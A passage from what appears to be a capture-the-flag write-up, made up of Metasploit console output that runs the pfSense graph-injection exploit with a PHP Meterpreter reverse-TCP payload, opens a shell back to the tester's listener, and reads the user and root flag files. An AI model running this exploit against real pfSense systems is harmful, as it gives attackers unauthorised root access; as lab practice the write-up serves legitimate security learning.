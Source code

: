 ```bash
   USERNAME  rohit            yes       User to login with
   VHOST                      no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.16.10      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.

msf6 exploit(unix/http/pfsense_graph_injection_exec) > set lhost tun0
lhost => 10.10.16.10
msf6 exploit(unix/http/pfsense_graph_injection_exec) > exploit
[-] Handler failed to bind to 10.10.16.10:4444:-  -
[-] Handler failed to bind to 0.0.0.0:4444:-  -
[-] Exploit failed [bad-config]: Rex::BindFailed The address is already in use or unavailable: (0.0.0.0:4444).
[*] Exploit completed, but no session was created.
msf6 exploit(unix/http/pfsense_graph_injection_exec) > set lport 5555
lport => 5555
msf6 exploit(unix/http/pfsense_graph_injection_exec) > run
[*] Started reverse TCP handler on 10.10.16.10:5555 
[*] Detected pfSense 2.1.3-RELEASE, uploading intial payload
[*] Payload uploaded successfully, executing
[*] Sending stage (40004 bytes) to 10.129.147.216
[+] Deleted vQJUb
[*] Meterpreter session 1 opened (10.10.16.10:5555 -> 10.129.147.216:13036) at 2025-02-08 15:24:10 -0500
```
This will give use root access so we can access both `user` and `root` flags.
## User and Root Flags
```bash
meterpreter > cd /home/rohit
meterpreter > cat user.txt
8721327cc232073b40d27d9c17e7348b
meterpreter > cd /root/
meterpreter > cat root.txt
d08c32a5d4f8c8b10e76eb51a69f1a86
meterpreter > 
```
